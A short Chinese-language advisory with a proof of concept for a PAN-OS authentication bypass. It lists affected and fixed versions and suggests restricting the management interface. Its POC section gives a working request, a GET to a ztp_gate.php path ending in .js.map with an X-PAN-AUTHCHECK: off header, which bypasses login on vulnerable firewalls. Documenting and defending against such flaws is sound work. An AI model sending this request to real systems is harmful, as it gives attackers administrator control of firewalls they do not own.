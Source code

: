 # Palo Alto Networks PAN-OS身份验证绕过漏洞

Palo Alto Networks是全球知名的网络安全厂商，PAN-OS是Palo Alto Networks为其防火墙设备开发的操作系统。

Palo Alto Networks PAN-OS多个受影响版本中存在身份验证绕过漏洞，该漏洞的CVSS评分为9.3，可能导致未经身份验证的攻击者通过网络访问管理Web界面，从而获得PAN-OS管理员权限以执行管理操作、篡改配置或利用其他经过身份验证的特权提升漏洞（如CVE-2024-9474）。

## 影响范围
> PAN OS 11.2 < 11.2.4-h1
> 
> PAN OS 11.1 < 11.1.5-h1
>
> PAN OS 11.0 < 11.0.6-h1
>
> PAN OS 10.2 < 10.2.12-h2

## POC
关键在于相关nginx配置中的匹配到.js.map会被作为静态资源进行代理。
同时设置HTTP请求头中的HTTP_X_PAN_AUTHCHECK为off，即可关闭认证检查。
```http
GET /php/ztp_gate.php/.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off

## 安全措施
### 升级版本
> PAN OS 11.2 >= 11.2.4-h1
> 
> PAN OS 11.1 >= 11.1.5-h1
> 
> PAN OS 11.0 >= 11.0.6-h1
> 
> PAN OS 10.2 >= 10.2.12-h2
### 临时做法
将管理接口的访问限制为仅受信任的内部IP地址，以防止来自互联网的外部访问。

  
